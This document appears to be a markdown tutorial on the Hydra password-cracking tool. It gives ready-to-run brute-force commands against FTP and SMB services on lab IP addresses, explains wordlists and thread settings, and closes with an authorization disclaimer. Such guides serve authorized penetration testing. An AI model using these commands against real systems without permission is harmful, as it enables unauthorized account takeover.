 
# Hydra Password Cracking Guide

## Introduction
Hydra is a powerful brute-forcing tool used to test the strength of passwords across various protocols (e.g., FTP, SMB, SSH). Below are detailed examples and explanations for using Hydra effectively.


## Basic Syntax

hydra -L <USERNAME_LIST> -P <PASSWORD_LIST> <TARGET_IP> <SERVICE> [OPTIONS]


### Key Options:
- `-L`: Path to the username wordlist (capital `L`).
- `-l`: Single username (small `l`).
- `-P`: Path to the password wordlist (capital `P`).
- `-p`: Single password (small `p`).
- `-s`: Target port number (e.g., FTP uses `21`, SMB uses `445`).
- `-V`: Verbose mode (prints login attempts in real-time).
- `-t`: Number of parallel tasks (threads). Common values: `2, 4, 8, 16, 32`.



## Examples

### 1. FTP Brute-Force
**Command:**

hydra -L /root/username.txt -P /root/password.txt 192.168.0.105 -s 21 ftp -V -t 32

**Explanation:**
- `-L /root/username.txt`: Username wordlist.
- `-P /root/password.txt`: Password wordlist.
- `192.168.0.105`: Target IP.
- `-s 21`: FTP service port.
- `-V`: Verbose output.
- `-t 32`: 32 parallel threads.

---

### 2. SMB Brute-Force (Port 445)
**Command:**

hydra -L /root/username.txt -P /root/password.txt 192.168.0.121 -s 445 smb -V -t 32


**Alternative Syntax:**

hydra -L /root/username.txt -P /root/password.txt smb://192.168.0.121 -V


**Explanation:**
- `smb://192.168.0.121`: Target IP with protocol prefix.
- No `-s` needed if using the protocol prefix.

---

### 3. SMB Brute-Force (Single Username)
**Command:**

hydra -l forensic -P /root/password.txt smb://192.168.0.121 -V


**Explanation:**
- `-l forensic`: Single username (`forensic`).
- `-P /root/password.txt`: Password wordlist.

---

### 4. SMB Brute-Force (Single Password)
**Command:**
hydra -L /root/username.txt -p admin 192.168.0.121 -s 445 smb -V


**Explanation:**
- `-p admin`: Single password (`admin`).
- `-L /root/username.txt`: Username wordlist.

---

## Notes
1. **Wordlists**:
   - Common wordlists: `/usr/share/wordlists/rockyou.txt` (passwords), `/usr/share/wordlists/dirb/common.txt` (usernames).
   - Custom wordlists can be generated using tools like `crunch` or `cewl`.

2. **Performance**:
   - Increase `-t` for faster brute-forcing, but avoid overwhelming the target.
   - Use `-V` to monitor progress.

3. **Ethical Considerations**:
   - Ensure explicit authorization before testing.
   - Document findings and report responsibly.

---

## Troubleshooting
- **Connection Issues**: Verify the target IP and service are reachable.
- **False Positives**: Check logs or use `-V` for detailed output.
- **Slow Performance**: Reduce threads (`-t`) or use a smaller wordlist.

---

## Legal Disclaimer
**Authorized Use Only**: This guide assumes you have permission to conduct penetration testing. Unauthorized use is illegal.
```

---
